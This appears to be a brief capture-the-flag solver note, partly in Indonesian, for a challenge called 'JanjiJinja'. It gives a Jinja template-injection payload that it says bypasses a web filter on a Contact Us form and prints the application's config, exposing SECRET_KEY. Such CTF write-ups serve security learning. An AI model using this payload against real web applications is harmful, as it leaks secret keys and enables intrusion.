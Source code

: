 # Solver JanjiJinja 

```
1. Go to Contact Us
2. Bypass WAF with {%print(config.items())%}
3. Flag ada di SECRET_KEY
```
